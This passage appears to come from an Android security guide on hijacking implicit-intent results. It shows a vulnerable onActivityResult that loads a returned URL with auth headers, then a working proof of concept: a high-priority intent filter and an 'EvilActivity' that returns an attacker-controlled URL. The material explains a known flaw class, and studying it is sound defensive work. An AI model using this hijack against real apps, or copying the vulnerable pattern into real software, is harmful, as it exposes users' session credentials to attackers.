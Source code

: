 There are two types of such actions:
- **System action** which usually lead to reading of arbitrary files.
- **Custom actions** which can lead to different vulnerabilities that depend on app's implementation.

### Custom actions

Assume, an app expects a url in the data to open it in the WebView:

```java
startActivityForResult(new Intent("com.victim.PICK_ARTICLE"), 1);
```

```java
protected void onActivityResult(int requestCode, int resultCode, Intent data) {
    super.onActivityResult(requestCode, resultCode, data);
    if(requestCode == 1 && resultCode == -1) {
        webView.loadUrl(data.getStringExtra("picked_url"), getAuthHeaders());
    }
}
```

You can start to handle the `com.victim.PICK_ARTICLE` actions and pass an arbitrary url for opening in the WebView:

- `AndroidManifest.xml`

    ```xml
    <activity android:name=".EvilActivity">
        <intent-filter android:priority="999">
            <action android:name="com.victim.PICK_ARTICLE" />
            <category android:name="android.intent.category.DEFAULT" />
        </intent-filter>
    </activity>
    ```

- `EvilActivity.java`

    ```java
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setResult(-1, new Intent().putExtra("picked_url", "https://attacker-website.com/"));
        finish();
    }
    ```

### System actions

The standard Android actions such as:
- `android.intent.action.PICK` to choose a photo
- `android.intent.action.GET_CONTENT` to choose files
- `android.media.action.IMAGE_CAPTURE` to create a photo
- etc.

are used to obtain the URI of a file (document, image, video) selected by the user and to process it in an app (e.g. by sending it to a server). Most Android/Java libraries can't work with `InputStream` returned by Android `ContentResolver` to send data to a server. Therefore, apps very often cache URI data into a file before processing. This can lead to reading/writing of arbitrary files.
